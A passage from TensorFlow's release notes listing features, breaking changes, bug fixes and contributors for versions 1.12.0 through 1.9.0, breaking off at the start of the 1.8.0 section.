Abhinav Upadhyay, Ag Ramesh, akikaaa, Alexis Louis, Anders Huss, Andreas Madsen, Andrew Banchich, Andy Craze, Anton Dmitriev, Artem Malykh, Avijit-Nervana, Balint Cristian, Benjamin Tan Wei Hao, Bhavani Subramanian, Brendan Finan, Brian Nemsick, Bryan Cutler, By Shen, Cao Zongyan, Castiel, Chris Antaki, Christian Goll, Cibifang, Clayne Robison, Codrut Grosu, Cong Xu, Dalmo Cirne, Daniel Hunter, Dougal J. Sutherland, Edvard Fagerholm, EFanZh, Erik Smistad, Evgeniy Polyakov, Feiyang Chen, franklin5, Fred Reiss, Gautam, gehring, Geoffrey Irving, George Sterpu, Gitea, Grzegorz George Pawelczak, Guozhong Zhuang, himkt, Hoeseong Kim, Huan Li (李卓桓), HuiyangFei, hyunyoung, Isaac Burbank, jackonan, Jacky Ko, Jason Furmanek, Jason Zaman, Javier Luraschi, Jiang,Zhoulong, joaak, John Lin, Jonathan Wyatt Hoech, josephyearsley, Josh Gordon, Julian Niedermeier, Karl Lessard, Keno Fischer, lanhin, Leon Graser, leondgarse, Li, Guizi, Li, Yiqiang, lxl910915, Mahmoud Abuzaina, manhyuk, Marcela Morales Quispe, margaretmz, Matt Conley, Max Pumperla, mbhuiyan, mdfaijul, Meng, Peng, Michael, Michael Gielda, mrTsjolder, Muhammad Wildan, neargye, Nehal J Wani, NEWPLAN, Niranjan Hasabnis, Nutti, olicht, Pan Daoxin, Pedro Monreal, Peng Yu, pillarpond, Pooya Davoodi, qiezi, Rholais Lii, Richard Yu, Rin Arakaki, Roger Iyengar, sahilbadyal, Sami Kama, Sandip Giri, Scott Leishman, Serge Panev, Seunghoon Park, Shafi Dayatar, shengfuintel, Shimin Guo, Siju, silent567, Stefan Dyulgerov, steven, Tao Wei, Thor Johnsen, Tingbo Lu, tomguluson92, Tongxuan Liu, Trevor Morris, Ubuntu, Vadim Borisov, vanderliang, wangsiyu, Wen Yun, Wen-Heng (Jack) Chung, wenxizhu, William D. Irons, Xiaoming (Jason) Cui, Yan Facai (颜发才), Yanbo Liang, Yaniv Blumenfeld, Yash Gaurkar, Yicheng Fan, Yong Tang, Yongjoon Lee, Yuan (Terry) Tang, Yuxin Wu, zldrobit

# Release 1.12.0

## Major Features and Improvements

*   Keras models can now be directly exported to the SavedModel
    format(`tf.contrib.saved_model.save_keras_model()`) and used with Tensorflow
    Serving.
*   Keras models now support evaluating with a `tf.data.Dataset`.
*   TensorFlow binaries are built with XLA support linked in by default.
*   Ignite Dataset added to contrib/ignite that allows to work with Apache
    Ignite.

## Bug Fixes and Other Changes

*   tf.data:
    *   tf.data users can now represent, get, and set options of TensorFlow
        input pipelines using `tf.data.Options()`, `tf.data.Dataset.options()`,
        and `tf.data.Dataset.with_options()` respectively.
    *   New `tf.data.Dataset.reduce()` API allows users to reduce a finite
        dataset to a single element using a user-provided reduce function.
    *   New `tf.data.Dataset.window()` API allows users to create finite windows
        of input dataset; when combined with the `tf.data.Dataset.reduce()` API,
        this allows users to implement customized batching.
    *   All C++ code moves to the `tensorflow::data` namespace.
    *   Add support for `num_parallel_calls` to `tf.data.Dataset.interleave`.
*   `tf.contrib`:
    *   Remove `tf.contrib.linalg`. `tf.linalg` should be used instead.
    *   Replace any calls to `tf.contrib.get_signature_def_by_key(metagraph_def,
        signature_def_key)` with
        `meta_graph_def.signature_def[signature_def_key]`. Catching a ValueError
        exception thrown by `tf.contrib.get_signature_def_by_key` should be
        replaced by catching a KeyError exception.
*   `tf.contrib.data`
    *   Deprecate, and replace by tf.data.experimental.
*   Other:
    *   Instead of jemalloc, revert back to using system malloc since it
        simplifies build and has comparable performance.
    *   Remove integer types from `tf.nn.softplus` and `tf.nn.softsign` OpDefs.
        This is a bugfix; these ops were never meant to support integers.
    *   Allow subslicing Tensors with a single dimension.
    *   Add option to calculate string length in Unicode characters.
    *   Add functionality to SubSlice a tensor.
    *   Add searchsorted (ie lower/upper_bound) op.
    *   Add model explainability to Boosted Trees.
    *   Support negative positions for tf.substr.
    *   There was previously a bug in the bijector_impl where the
        _reduce_jacobian_det_over_event does not handle scalar ILDJ
        implementations properly.
    *   In tf eager execution, allow re-entering a GradientTape context.
    *   Add tf_api_version flag. If --define=tf_api_version=2 flag is passed in,
        then bazel will build TensorFlow API version 2.0. Note that TensorFlow
        2.0 is under active development and has no guarantees at this point.
    *   Add additional compression options to TfRecordWriter.
    *   Performance improvements for regex full match operations.
    *   Replace tf.GraphKeys.VARIABLES with `tf.GraphKeys.GLOBAL_VARIABLES`.
    *   Remove unused dynamic learning rate support.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

(David) Siu-Kei Muk, Ag Ramesh, Anton Dmitriev, Artem Sobolev, Avijit-Nervana,
Bairen Yi, Bruno Goncalves, By Shen, candy.dc, Cheng Chen, Clayne Robison,
coder3101, Dao Zhang, Elms, Fei Hu, feiquan, Geoffrey Irving, Guozhong Zhuang,
hellcom, Hoeseong Kim, imsheridan, Jason Furmanek, Jason Zaman, Jenny Sahng,
jiefangxuanyan, Johannes Bannhofer, Jonathan Homer, Koan-Sin Tan, kouml, Loo
Rong Jie, Lukas Geiger, manipopopo, Ming Li, Moritz KröGer, Naurril, Niranjan
Hasabnis, Pan Daoxin, Peng Yu, pengwa, rasmi, Roger Xin, Roland Fernandez, Sami
Kama, Samuel Matzek, Sangjung Woo, Sergei Lebedev, Sergii Khomenko, shaohua,
Shaohua Zhang, Shujian2015, Sunitha Kambhampati, tomguluson92, ViníCius Camargo,
wangsiyu, weidankong, Wen-Heng (Jack) Chung, William D. Irons, Xin Jin, Yan
Facai (颜发才), Yanbo Liang, Yash Katariya, Yong Tang, 在原佐为

# Release 1.11.0

## Major Features and Improvements

*   Nvidia GPU:
    *   Prebuilt binaries are now (as of TensorFlow 1.11) built against cuDNN
        7.2 and TensorRT 4. See updated install guides:
        [Installing TensorFlow on Ubuntu](https://www.tensorflow.org/install/install_linux#tensorflow_gpu_support)
*   Google Cloud TPU:
    *   Experimental tf.data integration for Keras on Google Cloud TPUs.
    *   Experimental / preview support for eager execution on Google Cloud TPUs.
*   DistributionStrategy:
    *   Add multi-GPU DistributionStrategy support in tf.keras. Users can now
        use `fit`, `evaluate` and `predict` to distribute their model on
        multiple GPUs.
    *   Add multi-worker DistributionStrategy and standalone client support in
        Estimator. See
        [README](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/contrib/distribute)
        for more details.
*   Add C, C++, and Python functions for querying kernels.

## Breaking Changes

* Keras:
  * The default values for tf.keras `RandomUniform`, `RandomNormal`, and `TruncatedNormal` initializers have been changed to match those in external Keras.
  * Breaking change: `model.get_config()` on a Sequential model now returns a config dictionary (consistent with other Model instances) instead of a list of configs for the underlying layers.

## Bug Fixes and Other Changes

*   C++:
    *   Changed the signature of SessionFactory::NewSession so that it can
        return a meaningful error message on failure.
*   tf.data:
    *   Remove `num_parallel_parser_calls` argument from
        `tf.contrib.data.make_csv_dataset()`. [tf.data] Remove
        `num_parallel_parser_calls` argument from
        `tf.contrib.data.make_csv_dataset()`.
    *   `tf.data.Dataset.list_files()` raises an exception at initialization
        time if the argument matches no files.
    *   Renamed BigTable class to BigtableTable for clarity
    *   Document use of the Cloud Bigtable API
    *   Add `tf.contrib.data.reduce_dataset` which can be used to reduce a
        dataset to a single element.
    *   Generalization of `tf.contrib.data.sliding_window_batch`.
*   INC:
    *   Runtime improvements to triangular solve.
*   `tf.contrib`:
    *   Add an `implementation` argument to `tf.keras.layers.LocallyConnected2D`
        and `tf.keras.layers.LocallyConnected1D`. The new mode
        (`implementation=2`) performs forward pass as a single dense matrix
        multiplication, allowing dramatic speedups in certain scenarios (but
        worse performance in others - see docstring). The option also allows to
        use `padding=same`.
    *   Add documentation clarifying the differences between tf.fill and
        tf.constant.
    *   Add experimental IndexedDatasets.
    *   Add selective registration target using the lite proto runtime.
    *   Add simple Tensor and DataType classes to TensorFlow Lite Java
    *   Add support for bitcasting to/from uint32 and uint64.
    *   Added a subclass of Estimator that can be created from a SavedModel
        (SavedModelEstimator).
    *   Adds leaf index modes as an argument.
    *   Allow a different output shape from the input in
        tf.contrib.image.transform.
    *   Change the state_size order of the StackedRNNCell to be natural order.
        To keep the existing behavior, user can add reverse_state_order=True
        when constructing the StackedRNNCells.
    *   Deprecate self.test_session() in favor of self.session() or
        self.cached_session().
    *   Directly import tensor.proto.h (the transitive import will be removed
        from tensor.h soon).
    *   Estimator.train() now supports tf.contrib.summary.\* summaries out of
        the box; each call to .train() will now create a separate tfevents file
        rather than re-using a shared one.
    *   Fix FTRL L2-shrinkage behavior: the gradient from the L2 shrinkage term
        should not end up in the accumulator.
    *   Fix toco compilation/execution on Windows.
    *   GoogleZoneProvider class added to detect which Google Cloud Engine zone
        tensorflow is running in.
    *   It is now safe to call any of the C API's TF_Delete\* functions on
        nullptr.
    *   Log some errors on Android to logcat.
    *   Match FakeQuant numerics in TFLite to improve accuracy of TFLite
        quantized inference models.
    *   Optional bucket location check for the GCS Filesystem.
    *   Performance enhancements for StringSplitOp & StringSplitV2Op.
    *   Performance improvements for regex replace operations.
    *   TFRecordWriter now raises an error if .write() fails.
    *   TPU: More helpful error messages in TPUClusterResolvers.
    *   The legacy_init_op argument to SavedModelBuilder methods for adding
        MetaGraphs has been deprecated. Please use the equivalent main_op
        argument instead. As part of this, we now explicitly check for a single
        main_op or legacy_init_op at the time of SavedModel building, whereas
        the check on main_op was previously only done at load time.
    *   The protocol used for Estimator training is now configurable in
        RunConfig.
    *   Triangular solve performance improvements.
    *   Unify RNN cell interface between TF and Keras. Add new
        get_initial_state() to Keras and TF RNN cell, which will use to replace
        the existing zero_state() method.
    *   Update initialization of variables in Keras.
    *   Updates to "constrained_optimization" in tensorflow/contrib.
    *   boosted trees: adding pruning mode.
    *   tf.train.Checkpoint does not delete old checkpoints by default.
    *   tfdbg: Limit the total disk space occupied by dumped tensor data to 100
        GBytes. Add environment variable `TFDBG_DISK_BYTES_LIMIT` to allow
        adjustment of this upper limit.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Aapeli, adoda, Ag Ramesh, Amogh Mannekote, Andrew Gibiansky, Andy Craze, Anirudh Koul, Aurelien Geron, Avijit, Avijit-Nervana, Ben, Benjamin H. Myara, bhack, Brett Koonce, Cao Zongyan, cbockman, cheerss, Chikanaga Tomoyuki, Clayne Robison, cosine0, Cui Wei, Dan J, David, David Norman, Dmitry Klimenkov, Eliel Hojman, Florian Courtial, fo40225, formath, Geoffrey Irving, gracehoney, Grzegorz Pawelczak, Guoliang Hua, Guozhong Zhuang, Herman Zvonimir DošIlović, HuiyangFei, Jacker, Jan HüNnemeyer, Jason Taylor, Jason Zaman, Jesse, Jiang,Zhoulong, Jiawei Zhang, Jie, Joe Yearsley, Johannes Schmitz, Jon Perl, Jon Triebenbach, Jonathan, Jonathan Hseu, Jongmin Park, Justin Shenk, karl@kubx.ca, Kate Hodesdon, Kb Sriram, Keishi Hattori, Kenneth Blomqvist, Koan-Sin Tan, Li Liangbin, Li, Yiqiang, Loo Rong Jie, Madiyar, Mahmoud Abuzaina, Mark Ryan, Matt Dodge, mbhuiyan, melvinljy96, Miguel Mota, Nafis Sadat, Nathan Luehr, naurril, Nehal J Wani, Niall Moran, Niranjan Hasabnis, Nishidha Panpaliya, npow, olicht, Pei Zhang, Peng Wang (Simpeng), Peng Yu, Philipp Jund, Pradeep Banavara, Pratik Kalshetti, qwertWZ, Rakesh Chada, Randy West, Ray Kim, Rholais Lii, Robin Richtsfeld, Rodrigo Silveira, Ruizhi, Santosh Kumar, Seb Bro, Sergei Lebedev, sfujiwara, Shaba Abhiram, Shashi, SneakyFish5, Soila Kavulya, Stefan Dyulgerov, Steven Winston, Sunitha Kambhampati, Surry Shome, Taehoon Lee, Thor Johnsen, Tristan Rice, TShapinsky, tucan, tucan9389, Vicente Reyes, Vilmar-Hillow, Vitaly Lavrukhin, wangershi, weidan.kong, weidankong, Wen-Heng (Jack) Chung, William D. Irons, Wim Glenn, XFeiF, Yan Facai (颜发才), Yanbo Liang, Yong Tang, Yoshihiro Yamazaki, Yuan (Terry) Tang, Yuan, Man, zhaoyongke, ÁRon
Ricardo Perez-Lopez, 张天启, 张晓飞


# Release 1.10.1
## Bug Fixes and Other Changes

* `tf.keras`:
  * Fixing keras on Cloud TPUs. No new binaries will be built for Windows.


# Release 1.10.0

## Major Features And Improvements

* The `tf.lite` runtime now supports `complex64`.
* Initial [Google Cloud Bigtable integration](https://github.com/tensorflow/tensorflow/tree/r1.10/tensorflow/contrib/bigtable) for `tf.data`.
* Improved local run behavior in `tf.estimator.train_and_evaluate` which does not reload checkpoints for evaluation.
* `RunConfig` now sets device_filters to restrict how workers and PS can communicate. This can speed up training and ensure clean shutdowns in some situations. But if you have jobs that require communication between workers, you will have to set custom session_options in your `RunConfig`.
* Moved Distributions and Bijectors from `tf.contrib.distributions` to [Tensorflow Probability (TFP)](https://github.com/tensorflow/probability). `tf.contrib.distributions` is now deprecated and will be removed by the end of 2018.
* Adding new endpoints for existing tensorflow symbols. These endpoints are going to be the preferred endpoints going forward and may replace some of the existing endpoints in the future. See below for the complete list. New symbols have been added to the following modules: [`tf.debugging`](https://www.tensorflow.org/versions/master/api_docs/python/tf/debugging), [`tf.dtypes`](https://www.tensorflow.org/versions/master/api_docs/python/tf/dtypes), [`tf.image`](https://www.tensorflow.org/versions/master/api_docs/python/tf/image), [`tf.io`](https://www.tensorflow.org/versions/master/api_docs/python/tf/io), [`tf.linalg`](https://www.tensorflow.org/versions/master/api_docs/python/tf/linalg), [`tf.manip`](https://www.tensorflow.org/versions/master/api_docs/python/tf/manip), [`tf.math`](https://www.tensorflow.org/versions/master/api_docs/python/tf/math), [`tf.quantization`](https://www.tensorflow.org/versions/master/api_docs/python/tf/quantization), [`tf.strings`](https://www.tensorflow.org/versions/master/api_docs/python/tf/strings)

## Breaking Changes

* Prebuilt binaries are now (as of TensorFlow 1.10) built against NCCL 2.2 and no longer include NCCL in the binary install. TensorFlow usage with multiple GPUs and NCCL requires upgrade to [NCCL 2.2](https://developer.nvidia.com/nccl). See updated install guides: [TensorFlow GPU support](https://www.tensorflow.org/install/gpu) and [Build TensorFlow from source](https://www.tensorflow.org/install/source).
* Starting from TensorFlow 1.11, Windows builds will use Bazel. Therefore, we will drop official support for cmake.

## Bug Fixes and Other Changes

* `tf.data`:
  * `tf.contrib.data.group_by_reducer()` is now available via the public API.
  * `tf.contrib.data.choose_from_datasets()` is now available via the public API.
  * Adding `drop_remainder` argument to `tf.data.Dataset.batch()` and `tf.data.Dataset.padded_batch()`, deprecating `tf.contrib.data.batch_and_drop_remainder()` and `tf.contrib.data.padded_batch_and_drop_remainder()`.
* `tf.estimator`:
  * `Estimator`s now use custom savers included in `EstimatorSpec` scaffolds for saving SavedModels during export.
  * `EstimatorSpec` will now add a default prediction output for export if no `export_output` is provided, eliminating the need to explicitly include a `PredictOutput` object in the `model_fn` for simple use-cases.
  * Support sparse_combiner in canned Linear Estimators.
  * Added batch normalization to `DNNClassifier`, `DNNRegressor`, and `DNNEstimator`.
  * Adding ranking support for boosted trees.
  * Adding center bias option for boosted trees.
* Add `synchronization` and `aggregation` args to get_variable(). These args will be used for distributed variables.
* Add `synchronization` and `aggregation` args to the layer `add_weight()` API. These args will be used for distributed variables.
* `tf.losses.*` do not add to the global collection when executing eagerly (to avoid leaking memory).
* Support different summary and checkpoint directories in `tf.train.MonitoredTrainingSession()`.
* Added IndRNN, IndyGRU, and IndyLSTM cells to `tf.contrib.rnn`.
* Add safe static factory functions for SparseTensor and convert all CHECKs to DCHECKs. Using the constructor directly is unsafe and deprecated.
* Make the Bigtable client connection pool configurable & increase the default # of connections for performance.
* Added derivative of `tf.random_gamma` with respect to the alpha parameter.
* Added derivative of `tf.igamma(a, x)` and `tf.igammac(a, x)` with respect to a.
* Modified Bessel functions of order zero and one.
* Add FillTriangular Bijector to create triangular matrices.
* Added support for Type III DCT, and `tf.spectral.idct(type=2|3)`.
* Correctly handle CuDNN RNN weight loaded when nest in `TimeDistributed`.
* Adding per-element weight support for `WALSComputePartialLhsAndRhsOp`.
* ZerosLike and OnesLike ops treated as constants by Graph Transform Tool.
* Gamma distribution and the derived distributions (Beta, Dirichlet, Student's t, inverse Gamma) now fully reparameterized.
* Java: Experimental wrapper classes to make graph generation easier. Thanks @karllessard and @kbsriram
* Build & link in secure gRPC components (switch from the insecure grpc dependency to secure grpc dependency).
* Adding new endpoints for existing tensorflow symbols. These endpoints are going to be the preferred endpoints going forward and may replace some of the existing endpoints in the future. List of new endpoints:
  * New endpoints in `tf.image` namespace: `tf.image.extract_image_patches`
  * New endpoints in `tf.debugging` namespace: `tf.debugging.check_numerics`, `tf.debugging.is_finite`, `tf.debugging.is_inf`, `tf.debugging.is_nan`.
  * New endpoints in `tf.dtypes` namespace: `tf.dtypes.as_string`.
  * New endpoints in `tf.io` namespace: `tf.io.decode_base64`, `tf.io.decode_compressed`, `tf.io.decode_json_example`, `tf.io.decode_raw`, `tf.io.encode_base64`, `tf.io.matching_files`, `tf.io.parse_tensor`, `tf.io.read_file, `tf.io.write_file`.
  * New endpoints in tf.linalg namespace: `tf.linalg.cross`, `tf.linalg.tensor_diag` (corresponds to `tf.diag`), `tf.linalg.tensor_diag_part` (corresponds to `tf.diag_part`).
  * New endpoints in tf.manip namespace: `tf.manip.batch_to_space_nd`, `tf.manip.gather_nd`, `tf.manip.reshape`, `tf.manip.reverse`, `tf.manip.scatter_nd`, `tf.manip.space_to_batch_nd`, `tf.manip.tile`
  * New endpoints in tf.math namespace: `tf.math.acos`, `tf.math.acosh`, `tf.math.add`, `tf.math.asin`, `tf.math.asinh`, `tf.math.atan`, `tf.math.atan2`, `tf.math.atanh`, `tf.math.betainc`, `tf.math.ceil`, `tf.math.cos`, `tf.math.cosh`, `tf.math.digamma`, `tf.math.equal`, `tf.math.erfc`, `tf.math.exp`, `tf.math.expm1`, `tf.math.floor`, `tf.math.greater`, `tf.math.greater_equal`, `tf.math.igamma`, `tf.math.igammac`, `tf.math.invert_permutation`, `tf.math.less`, `tf.math.less_equal`, `tf.math.lgamma`, `tf.math.log`, `tf.math.log1p`, `tf.math.logical_and`, `tf.math.logical_not`, `tf.math.logical_or`, `tf.math.maximum`, `tf.math.minimum`, `tf.math.not_equal`, `tf.math.polygamma`, `tf.math.reciprocal`, `tf.math.rint`, `tf.math.rsqrt`, `tf.math.segment_max`, `tf.math.segment_mean`, `tf.math.segment_min`, `tf.math.segment_prod`, `tf.math.segment_sum`, `tf.math.sin`, `tf.math.sinh`, `tf.math.softplus`, `tf.math.softsign`, `tf.math.squared_difference`, `tf.math.tan`, `tf.math.unsorted_segment_max`, `tf.math.unsorted_segment_min`, `tf.math.unsorted_segment_prod`, `tf.math.unsorted_segment_sum`, `tf.math.zeta`.
  * New endpoints in `tf.quantization` namespace: `tf.quantization.dequantize`, `tf.quantization.fake_quant_with_min_max_args`, `tf.quantization.fake_quant_with_min_max_args_gradient`, `tf.quantization.fake_quant_with_min_max_vars`,  `tf.quantization.fake_quant_with_min_max_vars_gradient`, `tf.quantization.fake_quant_with_min_max_vars_per_channel`,  `tf.quantization.fake_quant_with_min_max_vars_per_channel_gradient`.
  * New endpoints in tf.strings namespace: `tf.strings.join` (corresponds to `tf.string_join`), `tf.strings.regex_replace`, `tf.strings.to_number` (corresponds to `tf.string_to_number`), `tf.strings.strip` (corresponds to `tf.string_strip`), `tf.strings.substr`, `tf.strings.to_hash_bucket` (corresponds to `tf.string_to_hash_bucket`), `tf.strings.to_hash_bucket_fast` (corresponds to `tf.string_to_hash_bucket_fast`), `tf.strings.to_hash_bucket_strong` (corresponds to `tf.string_to_hash_bucket_strong`).


## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Ag Ramesh, Alex Wiltschko, Alexander Pantyukhin, Amogh Mannekote, An Jiaoyang, Andrei Nigmatulin, Andrew Ginns, BjøRn Moholt, Brett Koonce, Chengzhi Chen, Chinmay Das, Christian Ertler, Christoph Boeddeker, Clayne Robison, Courtial Florian, ctiijima, Dan Douthit, Dan J, Dan Ringwalt, EFanZh, Emanuele Ballarin, eqy, Evgeniy Zheltonozhskiy, Freedom" Koan-Sin Tan, FréDéRic Branchaud-Charron, G K, gracehoney, Guillaume Klein, Guozhong Zhuang, Hsien-Yang Li, hsm207, ImSheridan, Jayaram Bobba, Jiandong Ruan, Jie, Joel Shor, Jonas Rauber, Jongmin Baek, jsawruk, Karan Kaw, Karl Lessard, karl@kubx.ca, Kb Sriram, KinmanLam, leiiwang, Li, Yiqiang, Loo Rong Jie, Mahmoud Abuzaina, Mahmoud Aslan, ManHyuk, Martin Patz, Martin Zeitler, mktozk, Mohammad Ashraf Bhuiyan, mrTsjolder, Naman Bhalla, Nick Felt, Nicolas Lopez, Niranjan Hasabnis, Nishidha Panpaliya, Nitish, nrstott, Nutti, Parag Jain, PeterLee, Philipp Jund, Rach L, Rafal Wojdyla, Roland Zimmermann, Sergei Lebedev, SneakyFish5, Soila Kavulya, Sriram Veturi, Steven Schmatz, Taehoon Lee, Tang, Wenyi, Taras Sereda, Ted Chang, Tim Zaman, Tristan Rice, tucan, vchigrin, Vikram Tiwari, Vincent, WeberXie, William D. Irons, Yan Facai (颜发才), Yong Tang, Yu Yi, Yuxin Wu, Zé ViníCius

# Release 1.9.0

## Major Features And Improvements
* Updated docs for `tf.keras`: New Keras-based [get started](http://tensorflow.org/versions/r1.9/get_started),
  and [programmers guide page](http://tensorflow.org/versions/r1.9/programmers_guide/keras).
* Update `tf.keras` to the Keras 2.1.6 API.
* Added [`tf.keras.layers.CuDNNGRU`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/keras/layers/CuDNNGRU) and [`tf.keras.layers.CuDNNLSTM`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/keras/layers/CuDNNLSTM) layers. [Try it](https://colab.sandbox.google.com/github/tensorflow/tensorflow/blob/master/tensorflow/contrib/eager/python/examples/nmt_with_attention/nmt_with_attention.ipynb?linkId=53292082).
* Adding support of core [feature columns](https://www.tensorflow.org/get_started/feature_columns) and [losses](https://www.tensorflow.org/api_docs/python/tf/losses) to [gradient boosted trees estimators](https://github.com/tensorflow/models/tree/master/official/r1/boosted_trees).
* The [python interface](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/lite)
  for the [TFLite Optimizing Converter](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/toco/README.md)
  has been expanded, and the command line interface (AKA: `toco`, `tflite_convert`) is once again
  included in the standard `pip` installation.
* Improved data-loading and text processing with:
    * [`tf.decode_compressed`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/decode_compressed)
    * [`tf.string_strip`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/string_strip)
    * [`tf.strings.regex_full_match`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/strings/regex_full_match)
* Added experimental support for new pre-made Estimators:
  * [`tf.contrib.estimator.BaselineEstimator`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/contrib/estimator/BaselineEstimator)
  * [`tf.contrib.estimator.RNNClassifier`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/contrib/estimator/RNNEstimator)
  * [`tf.contrib.estimator.RNNEstimator`](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/contrib/estimator/RNNClassifier)
* The [distributions.Bijector](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/contrib/distributions/bijectors/Bijector)
  API supports broadcasting for Bijectors with new API changes.

## Breaking Changes
  * If you're opening empty variable scopes; replace `variable_scope('', ...)` by
    `variable_scope(tf.get_variable_scope(), ...)`.
  * Headers used for building custom ops have been moved from site-packages/external into site-packages/tensorflow/include/external.

## Bug Fixes and Other Changes

*   `tfe.Network` is deprecated. Please inherit from `tf.keras.Model`.
*   Layered variable names have changed in the following conditions:
    *   Using `tf.keras.layers` with custom variable scopes.
    *   Using `tf.layers` in a subclassed `tf.keras.Model` class. See
        [here](https://www.tensorflow.org/versions/r1.9/api_docs/python/tf/layers)
        for more details
*   `tf.data`:
    *   `Dataset.from_generator()` now accepts an `args` list, in order to
        create nested generators.
    *   `Dataset.list_files()` now produces deterministic results when
        `shuffle=False` or a `seed` is passed.
    *   `tf.contrib.data.sample_from_datasets()` and
        `tf.contrib.data.choose_from_datasets()` make it easier to sample or
        deterministically choose elements from multiple datasets.
    *   `tf.contrib.data.make_csv_dataset()` now supports line breaks in quoted
        strings, and two infrequently used arguments removed.
    *   (C++) `DatasetBase::DebugString()` is now `const`.
    *   (C++) `DatasetBase::MakeIterator()` has been renamed to
        `DatasetBase::MakeIteratorInternal()`.
    *   (C++) `IteratorBase::Initialize()` method was added to support raising
        errors during iterator construction.
*   Eager Execution:
    *   Added the ability to pause recording operations for gradient computation
        via `tf.GradientTape.stop_recording`.
    *   Updated documentation, introductory notebooks.
*   `tf.keras`:
    *   Move Keras code out of _impl folder and remove API files.
    *   `tf.keras.Model.save_weights` now saves in TensorFlow format by default.
    *   Enable dataset iterators to be passed to `tf.keras.Model` training/eval
        methods.
*   TensorFlow Debugger (tfdbg) CLI: fix an issue in which the TensorBoard
    Debugger Plugin could not handle total source file size exceeding gRPC
    message size limit (4 MB).
*   `tf.contrib`:
    *   `tf.contrib.framework.zero_initializer` supports ResourceVariable.
    *   Adding "constrained_optimization" to tensorflow/contrib.
*   Other:
    *   Add GCS Configuration Ops.
    *   Changing signature of `MakeIterator` to enable propagating error status.
    *   KL divergence for two Dirichlet distributions.
    *   More consistent GcsFileSystem behavior for certain reads past EOF.
    *   Update benchmark for tf.scan to match ranges across eager and graph
        modes.
    *   Fixed bug in `tf.reduce_prod gradient` for complex dtypes.
    *   Allow the use of '.' in variables (e.g. "hparams.parse('a.b=1.0')"),
        which would previously raise an error. This will correspond to an
        attribute name with an embedded '.' symbol (e.g. 'a.b'), which can only
        be accessed indirectly (e.g. through getattr and setattr). To set this
        up the user will first need to explicitly add the variable to the hparam
        object (e.g. "hparams.add_hparam(name='a.b', value=0.0)").
    *   Benchmark for tf.scan in graph and eager modes.
    *   Added complex128 support to FFT, FFT2D, FFT3D, IFFT, IFFT2D, and IFFT3D.
    *   Making ids unique in `nn.embedding_lookup_sparse`. This helps to reduce
        RPC calls for looking up the embeddings when there are repeated ids in
        the batch.
    *   Support indicator column in boosted trees.
    *   Prevent `tf.gradients()` from backpropagating through integer tensors.
    *   LinearOperator[1D,2D,3D]Circulant added to `tensorflow.linalg`.
    *   Conv3D, Conv3DBackpropInput, Conv3DBackpropFilter now supports
        arbitrary.
    *   Added `tf.train.Checkpoint` for reading/writing object-based
        checkpoints.
    *   Added LinearOperatorKronecker, a dense-free implementation of the
        Kronecker Product.
    *   Allow LinearOperator to broadcast.
    *   SavedModelBuilder will now deduplicate asset names that point to files
        with the same basename and the same contents. Note that this may result
        in new asset files included in SavedModels in cases where assets with
        the same name but different contents were previously overwriting each
        other.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Abdullah Alrasheed, Achal Shah, Ad-530, ADiegoCAlonso, Aditya Yogi, Ag Ramesh, akindyakov, Andy Kernahan, Anya Petrova, Aurelien Geron, Ben, Ben Barsdell, Bhavani-Subramanian, braincodercn, Brett Koonce, Brian Nemsick, Brian Zier, Bryan Heden, candy.dc, cclauss, Clayne Robison, ctiijima, Dalmo Cirne, David Norman, David T.H. Kao, DosLin, ekelsen, Elson Rodriguez, Erik Smistad, Felix Abecassis, Fergal Cotter, fo40225, foo0x29a, Freedom" Koan-Sin Tan, FréDéRic Branchaud-Charron, gdh1995, Geoffrey Irving, Giuseppe, gracehoney, Guido Zuidhof, Guillaume Klein, Guozhong Zhuang, Haggai, Harald Husum, imsheridan, Ivan Zhang, Jan Zikes, Jayaram Bobba, Jesse Benson, Jesse Gumz, Jiajia Li, Jie, jinghuangintel, Jingwen, jjsjann123, Joe Yearsley, Joel Hestness, Joel Shor, josephyearsley, Junpeng Lao, Karol M. Langner, Kb Sriram, krantideep95, Krish Ravindranath, Letian Feng, Loo Rong Jie, Lukas Geiger, Maciej, Mahmoud Abuzaina, ManHyuk, Mark Ryan, mbhuiyan, Michal Turek, Mostafa Alaa, Myungsung Kwak, Nand Dalal, Nehal J Wani, Neil Tenenholtz, ngc92, Nicholas Nadeau, P.Eng., Avs, Niranjan Hasabnis, P-Hidringer, Paul Van Eck, Peng Yu, Qing Zhao, Qingying Chen, Quanlong, Rajendra Arora, Rholais Lii, rmanyari, Robin Richtsfeld, Russell Klopfer, Sagi, Sam Sendelbach, Sandeep N Gupta, Sandip Giri, Sarah Edkins, Scott Tseng, Sdalbsoo, Sergii Khomenko, Seungwoo Choi (Biggie), Seyed Majid Azimi, Shaoning Zeng, shengfuintel, Siu Kei, Muk, Smit Shilu, soonson, Stefan Schweter, Sukhwan Kim, Sunitha Kambhampati, Taehoon Lee, tamimaddari82, Tang, Wenyi, Ted Chang, u2takey, Utkarsh Upadhyay, Vadim Markovtsev, voegtlel, Wai Hon Law, wangsiyu, Wenhao Hu, wenhao.hu, William D. Irons, Yan Facai (颜发才), Yanbo Liang, Yihong Wang, Yilei (Dolee) Yang, Yong Tang, Yuan (Terry) Tang

# Release 1.8.0

## Major Features And Improvements
* Can now pass `tf.contrib.distribute.MirroredStrategy()` to `tf.estimator.RunConfig()` to run an Estimator model on multiple GPUs on one machine.
* Add `tf.contrib.data.prefetch_to_device()`, which supports prefetching to GPU memory.
* Added Gradient Boosted Trees as pre-made Estimators: BoostedTreesClassifier, BoostedTreesRegressor.
* Add 3rd generation pipeline config for Cloud TPUs which improves performance and usability.
* `tf.contrib.bayesflow` is moving out to it's own repo.
